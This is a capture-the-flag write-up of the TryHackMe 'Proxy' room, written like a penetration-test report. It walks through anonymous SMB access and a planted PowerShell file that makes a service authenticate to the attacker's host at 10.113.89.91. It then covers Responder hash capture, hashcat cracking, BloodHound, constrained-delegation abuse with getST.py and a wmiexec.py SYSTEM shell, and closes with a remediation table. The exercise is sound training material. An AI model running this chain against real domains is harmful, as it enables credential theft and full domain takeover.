# Proxy Write-up

**Platform**: TryHackMe <br>
**Room**: Proxy (https://tryhackme.com/room/proxychallenge) <br>
**Category**: Active Directory <br>
**Target**: Windows <br>
**Techniques**: Anonymous SMB Access, AD Coercion, NetNTLMv2 Hash Cracking, BloodHound, Constrained Delegation <br>
**Final Goal**: Domain Administrator

## Executive Summary

This assessment evaluated the security of the **Proxy** Active Directory environment. The objective was to determine whether an unauthenticated user could identify weaknesses that would lead from guest access to privileged access within the domain.

The assessment identified several security weaknesses, including excessive SMB permissions, an automated service processing files from a shared location, and insecure Active Directory delegation. These issues could be combined to obtain the credentials of the `svc.scanner` account, identify its delegation privileges, and ultimately impersonate the Domain Administrator.

The assessment highlights the importance of restricting access to shared resources, carefully reviewing automated service behaviour, protecting service account credentials, and regularly auditing Active Directory delegation permissions. Addressing these weaknesses would significantly reduce the likelihood of an attacker progressing from unauthenticated network access to complete domain compromise.

## Overview

Proxy simulates an Active Directory environment where an exposed SMB share provides an initial foothold for further enumeration. The objective is to identify weaknesses in the shared resources and Active Directory configuration, obtain valid domain credentials, and escalate privileges to achieve Domain Administrator access.

The room demonstrates a realistic attack chain involving:

- Service and SMB enumeration
- Anonymous SMB access
- Sensitive information disclosure
- Active Directory coercion
- NetNTLMv2 hash capture and cracking
- Active Directory enumeration with BloodHound
- Constrained Delegation abuse
- Kerberos service ticket impersonation
- Domain Administrator access

### Attack Chain



---

## Initial Enumeration

The assessment begins by identifying the services exposed by the target host.

```bash
nmap -sV -sC -p- 10.113.147.212
```

Where:

- `-sV` performs service version detection.
- `-sC` executes Nmap's default NSE scripts.
- `-p-` scans all TCP ports.

The scan identifies the target as a Windows-based Domain Controller named `DC01.ctf.local` for the `ctf.local` domain. Several Active Directory services are exposed, including DNS, Kerberos, LDAP, SMB and RDP.



The host information can be added to the AttackBox's `/etc/hosts` file: `10.113.147.212 DC01.ctf.local ctf.local`.



Since SMB is exposed, the next step is to determine whether the service permits unauthenticated access.

---

## Anonymous SMB Enumeration

Attempt to authenticate to SMB using the `guest` account without a password and enumerate the available shares.

```bash
nxc smb 10.113.147.212 -u 'guest' -p '' --shares
```

The results show that the `IT-Shared` share is accessible with both read and write permissions.



Since the share allows files to be written anonymously, it becomes the primary focus for further enumeration. Connect to the share using `smbclient`:

```bash
smbclient //10.113.147.212/IT-Shared -U 'guest'
```

No password is required. List the available files:
```bash
ls
```
Download all available files:
```bash
mget *
```
Answer `yes` when prompted to confirm each download.



The downloaded files provide additional information about the environment.

The `IT-Credentials-Backup.txt` file contains credentials belonging to two user accounts. However, the accounts appear to be disabled because the users have either left the organisation or went through a role change.



The `IT-Portal.html` file contains an IT dashboard for CTF Corp. Opening the file in Firefox reveals that the portal is logged in as `svc.scanner`. The dashboard provides information about several services running on the Domain Controller, including the `IT-Shared` file share.



The dashboard also contains recent tickets referencing two additional users, `m.jones` and `j.smith`.

The most significant information is found in the `IT-Onboarding-Checklist.txt` file.



The checklist states that an automated service runs as `svc.scanner` every two minutes and enumerates the `IT-Shared` share for new files. It also uses shell enumeration to inspect file metadata and icons. This behaviour provides an opportunity to interact with the automated service by placing a file in the writable share. The objective is to make the service access a resource controlled by the attacker and capture its authentication attempt.

---

## Active Directory Coercion

Active Directory coercion techniques can cause a Windows system or service to authenticate to an attacker-controlled network resource. If the requesting process runs under a domain account, the resulting authentication can expose a NetNTLMv2 challenge-response that may subsequently be de-hashed.

In this case, the automated service runs as `svc.scanner` and processes files uploaded to the `IT-Shared` share. A PowerShell script is therefore created to make the service request an icon file from the AttackBox.

Start Responder and listen on the AttackBox interface:

```bash
sudo responder -I ens5
```

If the VPN is being used, replace `ens5` with the `tun0` interface.

Create a one-line PowerShell script `trick.ps1` containing the following command, replacing the IP address with the AttackBox address:

```bash
Get-ChildItem \\10.113.89.91\icons\icon.ico
```



Reconnect to the SMB share and upload the script:

```bash
put trick.ps1
```



> **Note:** On the AttackBox, the SMBD service may already be listening on port 445 and prevent Responder from listening correctly. Check whether it is running with: `sudo netstat -tulpn | grep :445`. If necessary, stop and disable the service: `sudo systemctl stop smbd && sudo systemctl disable smbd`. 

The automated service processes files from the share every two minutes. When the uploaded script is processed, Responder captures the authentication attempt from `svc.scanner`.



The captured authentication provides a NetNTLMv2 hash for the `svc.scanner` account.

---

## NetNTLMv2 Hash Cracking

The captured hash is saved to a file named `svchash.txt`. Hashcat mode `5600` is used because it corresponds to NetNTLMv2 hashes. The `rockyou.txt` wordlist is then used to attempt to recover the associated password:

```bash
hashcat -a0 -m5600 svchash.txt /usr/share/wordlists/rockyou.txt
```

Hashcat's available hash modes can be referenced through its documentation (https://hashcat.net/wiki/doku.php?id=example_hashes).



The hash is successfully deciphered, providing a valid password for the `svc.scanner` account.

With valid domain credentials available, the next step is to enumerate the Active Directory environment and identify relationships that may allow further privilege escalation.

## Active Directory Enumeration with BloodHound

Since valid credentials for the `svc.scanner` account have been recovered, BloodHound can be used to enumerate the Active Directory environment and identify relationships that may provide further privilege escalation opportunities.

Collect the domain information using `bloodhound-python`:

```bash
bloodhound-python -u svc.scanner -p <password of svc.scanner> -dc DC01.ctf.local -d ctf.local -ns 10.113.147.212 -c All --zip
```



Start BloodHound and import the generated ZIP file.



Search for the `svc.scanner@ctf.local` account and inspect its node properties. The account is shown as **Allowed To Delegate** to the Domain Controller itself.



Scrolling down to the execution rights section reveals a **Constrained Delegation Privileges** relationship.



Selecting the relationship shows that `svc.scanner` has **AllowedToDelegate** permissions towards the Domain Controller.

**Constrained Delegation** allows a service account to request Kerberos service tickets to specific services on behalf of another user. When this permission is incorrectly assigned to a service account, it may allow an attacker who controls that account to impersonate a more privileged user to the permitted service.

BloodHound also provides exploitation guidance for the identified relationship. Right-click the edge and select `Help` to view the Linux-specific instructions.



The identified delegation relationship allows a service ticket to be requested on behalf of the **Administrator** account for the CIFS service on the Domain Controller.

---

## Privilege Escalation

Request a service ticket while impersonating the Administrator account:

```bash
getST.py ctf.local/svc.scanner:<password of svc.scanner> -spn cifs/DC01.ctf.local -impersonate Administrator -dc-ip DC01.ctf.local
```



The resulting `.ccache` file contains the Kerberos service ticket obtained for the impersonated Administrator account. Set the `KRB5CCNAME` environment variable to point to the newly generated ticket:

```bash
export KRB5CCNAME=Administrator@cifs_DC01.ctf.local@CTF.LOCAL.ccache
```

This allows subsequent Impacket tools to use the cached Kerberos ticket rather than authenticating with the `svc.scanner` password.



Using the cached ticket, authenticate to the Domain Controller with `wmiexec.py`:

```bash
wmiexec.py -k -no-pass ctf.local/Administrator@DC01.ctf.local
```

The `-k` option instructs Impacket to use Kerberos authentication, while `-no-pass` prevents it from requesting a password.



The connection provides a shell on the Domain Controller with **SYSTEM**-level privileges. The final flag is located on the Administrator's Desktop, confirming successful escalation to Domain Administrator-level access.

# Conclusion

This assessment demonstrated how several security weaknesses across SMB and Active Directory could be chained together to achieve full domain compromise.

The attack began with anonymous access to the `IT-Shared` SMB share, where exposed information revealed details about an automated service running as `svc.scanner`. Because the share was writable, a crafted file could be used to trigger an authentication request from the service and capture its NetNTLMv2 hash. After recovering the account's password, Active Directory enumeration with BloodHound revealed that `svc.scanner` was configured for constrained delegation to the Domain Controller.

This delegation configuration allowed the `Administrator` account to be impersonated through Kerberos, ultimately providing access to the Domain Controller with SYSTEM-level privileges.

The room highlights the importance of restricting anonymous access to network shares, carefully controlling write permissions, protecting service account credentials, and regularly reviewing Active Directory delegation configurations. Security weaknesses that may appear limited individually can become significantly more impactful when combined into a complete attack path.

---

# Remediation Recommendations

The compromise of the Proxy environment was achieved by chaining weaknesses in SMB access, service configuration, credential protection, and Active Directory delegation. Addressing the following findings would significantly reduce the attack surface.

| Finding | Recommendation |
|---------|----------------|
| **Anonymous SMB Access** | Disable guest and anonymous access to SMB shares unless explicitly required. Require authentication and review share permissions regularly. |
| **Excessive SMB Write Permissions** | Restrict write access to shared directories to authorised users and groups. Apply the principle of least privilege and avoid allowing untrusted users to upload files processed by privileged services. |
| **Automated Service Processing** | Avoid allowing privileged services to automatically process files from locations writable by untrusted users. Validate files before processing them and ensure service accounts operate with the minimum privileges required. |
| **Service Account Credential Exposure** | Protect service account credentials and avoid configurations that allow their authentication material to be captured through network interactions. Use strong, unique credentials and managed service accounts where appropriate. |
| **NetNTLMv2 Exposure** | Reduce unnecessary NTLM usage and prefer Kerberos authentication where possible. Network protections should also be implemented to limit outbound authentication to untrusted systems. |
| **Constrained Delegation** | Regularly audit delegation settings and ensure constrained delegation is granted only to service accounts that require it. Delegation to sensitive services should be carefully reviewed and restricted. |
| **Privileged Account Impersonation** | Prevent service accounts from being able to impersonate highly privileged users unless there is a documented operational requirement. Monitor unusual Kerberos service ticket requests involving privileged accounts. |
| **Active Directory Permissions** | Conduct periodic reviews of Active Directory relationships and delegated privileges using tools such as BloodHound. Remove unnecessary privileges and apply the principle of least privilege throughout the domain. |

Implementing these recommendations would reduce the likelihood of an attacker progressing from anonymous SMB access to credential compromise and ultimately gaining privileged access to the Domain Controller.